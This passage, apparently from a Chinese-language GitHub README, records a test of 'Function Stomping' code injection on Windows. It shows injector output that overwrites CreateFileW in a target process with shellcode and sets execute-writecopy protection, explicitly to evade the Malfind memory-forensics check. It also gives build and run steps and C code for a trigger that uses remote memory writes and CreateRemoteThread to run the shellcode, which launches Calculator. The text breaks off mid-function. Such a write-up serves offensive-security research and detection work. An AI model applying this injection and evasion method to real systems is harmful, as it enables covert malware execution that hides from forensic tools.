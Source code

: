 ```
[+] Changed protection to WCX (EXECUTE_WRITECOPY)  ← 关键：绕过 Malfind

[+] Function stomping successful!
[!] You MUST call the function 'CreateFileW' from the target process to trigger execution!
[+] Injection successful!
```

**结果**: ✅ **注入成功**

**关键点**：
1. ✅ 函数地址：`00007FFB3F297250`
2. ✅ 覆盖106字节shellcode
3. ✅ 保护修改：RX → RW → **WCX** (PAGE_EXECUTE_WRITECOPY)

### 测试 2: 触发 Shellcode 执行

由于 Function Stomping 需要目标进程**主动调用**被覆盖的函数，我们创建了触发程序。

**步骤 5**: 编译触发程序
```bash
gcc -o build/trigger_createfile.exe trigger_createfile.c
```

**步骤 6**: 触发 shellcode
```bash
./trigger_createfile.exe 27816
```

**输出**:
```
[+] Triggering CreateFileW in PID 27816
[+] Opened target process
[+] CreateFileW address: 00007FFB3F297250 (stomped)
[+] Allocated remote path at 0000015ED34A0000
[+] Wrote file path to remote process
[+] Creating remote thread to call CreateFileW (shellcode will execute)...
[+] Remote thread created! Shellcode should execute now.
[+] Shellcode execution completed
[+] Trigger completed successfully!
```

**验证**:
```bash
tasklist | grep -i "Calculator.exe"
# Calculator.exe 正在运行！✅
```

**结果**: ✅ **Shellcode 成功执行，Calculator 弹出**

## 触发机制分析

### 触发程序工作原理

```c
// 1. 获取 CreateFileW 地址（已被 shellcode 覆盖）
CreateFileW_t pCreateFileW = (CreateFileW_t)GetProcAddress(hKernel32, "CreateFileW");

// 2. 在目标进程中分配参数字符串
LPVOID pRemotePath = VirtualAllocEx(hProcess, NULL, pathSize, MEM_COMMIT, PAGE_READWRITE);
WriteProcessMemory(hProcess, pRemotePath, L"C:\\test.txt", pathSize, NULL);

// 3. 创建远程线程调用 CreateFileW（实际执行 shellcode）
HANDLE hThread = CreateRemoteThread(
    hProcess,
    NULL,
    0,
    (LPTHREAD_START_ROUTINE)pCreateFileW,  // ← 指向 shellcode
    pRemotePath,  // lpFileName 参数
```